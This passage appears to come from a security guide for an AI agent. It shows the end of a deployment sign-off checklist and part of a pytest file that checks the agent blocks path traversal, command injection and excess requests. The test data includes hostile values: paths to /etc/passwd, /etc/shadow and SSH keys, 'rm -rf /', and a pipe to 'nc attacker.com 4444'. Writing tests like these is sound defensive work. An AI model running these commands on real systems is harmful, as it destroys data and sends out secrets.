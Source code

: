 ## Sign-off

- [ ] Development team review
- [ ] Security team approval
- [ ] Management sign-off
- [ ] Documentation updated
- [ ] Training completed

Approved for deployment: [ ] Yes [ ] No
Conditions: [LIST ANY CONDITIONS]
```

### Security Testing Scripts

```python
# tests/security/test_security.py

import pytest
import os
import tempfile
from pathlib import Path

class TestSecurityMeasures:
    """Security-focused test suite"""
    
    def test_path_traversal_prevention(self, agent):
        """Verify path traversal attacks are blocked"""
        malicious_paths = [
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32",
            "/etc/passwd",
            "~/../../root/.ssh/id_rsa",
            "Documents/../../../etc/shadow"
        ]
        
        for path in malicious_paths:
            with pytest.raises(SecurityError):
                agent.read_file(path)
    
    def test_command_injection_prevention(self, agent):
        """Verify command injection is prevented"""
        malicious_inputs = [
            "file.txt; rm -rf /",
            "file.txt && cat /etc/passwd",
            "file.txt | nc attacker.com 4444",
            "$(cat /etc/passwd)",
            "`rm -rf /`"
        ]
        
        for input_str in malicious_inputs:
            result = agent.process_file_command(input_str)
            # Should either sanitize or reject
            assert "rm" not in str(result)
            assert "cat /etc/passwd" not in str(result)
    
    def test_rate_limiting(self, agent):
        """Verify rate limiting works"""
        # Attempt rapid requests
        results = []
        for i in range(150):  # Over limit
            try:
                result = agent.execute_task("test")
                results.append(result)
            except RateLimitError:
```